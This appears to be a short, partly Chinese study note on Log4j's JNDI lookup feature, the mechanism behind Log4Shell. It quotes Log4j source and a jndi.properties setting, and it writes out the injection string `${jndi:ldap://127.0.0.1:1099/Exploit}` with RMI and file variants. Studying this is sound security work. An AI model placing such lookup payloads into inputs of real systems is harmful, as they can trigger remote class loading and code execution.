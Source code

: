 ### 特性 - Lookups

#### JDNI Lookup

https://logging.apache.org/log4j/2.x/manual/lookups.html#JndiLookup

org.apache.logging.log4j.core.lookup.JndiLookup

`${jndi:ldap://127.0.0.1:1099/Exploit}`

jndi -> org.apache.logging.log4j.core.lookup.JndiLookup

JNDI -> 

- ldap://127.0.0.1:1099/Exploit
  - com.sun.jndi.url.ldap.ldapURLContextFactory

- rmi://127.0.0.1:1099/Exploit
  - com.sun.jndi.url.rmi.rmiURLContextFactory
- file:///${user.home}/Exploit
  - com.sun.jndi.url.file.fileURLContextFactory



jndi.properties

```properties
java.naming.factory.initial = jndi.file.FileSystemInitialContextFactory
```





org.apache.logging.log4j.core.lookup.Interpolator#Interpolator(java.util.Map<java.lang.String,java.lang.String>):

```java
        // JNDI
        try {
            // [LOG4J2-703] We might be on Android
            strLookupMap.put(LOOKUP_KEY_JNDI,
                Loader.newCheckedInstanceOf("org.apache.logging.log4j.core.lookup.JndiLookup", StrLookup.class));
        } catch (final LinkageError | Exception e) {
            handleError(LOOKUP_KEY_JNDI, e);
        }
```



## RMI - Remote Method Invocation



## [JNDI - Java Naming and Directory Interface](https://www.oracle.com/java/technologies/naming-and-directory-interface.html)

